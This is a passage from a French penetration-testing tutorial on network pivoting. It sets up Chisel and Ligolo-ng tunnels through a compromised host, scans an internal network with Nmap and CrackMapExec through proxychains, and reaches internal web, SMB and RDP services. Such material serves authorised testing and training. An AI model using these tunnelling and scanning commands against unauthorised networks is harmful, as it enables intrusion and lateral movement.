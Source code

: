 Si SSH n'est pas disponible ou limité, Chisel est une excellente alternative :

```bash
# Sur la machine pivot (après y avoir transféré chisel)
./chisel server -p 8080 --reverse

# Sur Exegol
chisel client 192.168.1.100:8080 R:socks
```

Maintenant, vous pouvez utiliser proxychains comme précédemment.

#### Étape 5 : Pivoting avec Ligolo-ng

Pour des scénarios plus complexes, Ligolo-ng offre des fonctionnalités avancées :

```bash
# Sur Exegol (serveur proxy)
ligolo-proxy -selfcert

# Sur la machine pivot (après y avoir transféré l'agent)
./ligolo-agent -connect 192.168.1.50:11601 -ignore-cert

# Sur Exegol, dans la console Ligolo
session
start
ifconfig
# Identifier l'interface du réseau cible (ex: 10.0.0.0/24)
listener_add --addr 0.0.0.0:1080 --to 127.0.0.1:1080 --tcp
```

#### Étape 6 : Scan du réseau cible via le pivot

```bash
# Scan avec Nmap via proxychains
proxychains nmap -sT -Pn -n 10.0.0.0/24 -oA scan_interne

# Scan avec CrackMapExec via proxychains
proxychains crackmapexec smb 10.0.0.0/24
```

#### Étape 7 : Accès aux services internes

Une fois le réseau interne cartographié, vous pouvez accéder aux services :

```bash
# Accès à un serveur web interne
proxychains firefox http://10.0.0.10

# Accès à un partage SMB interne
proxychains smbclient //10.0.0.20/share -U utilisateur

# Accès RDP
proxychains xfreerdp /v:10.0.0.30 /u:utilisateur /p:password
```
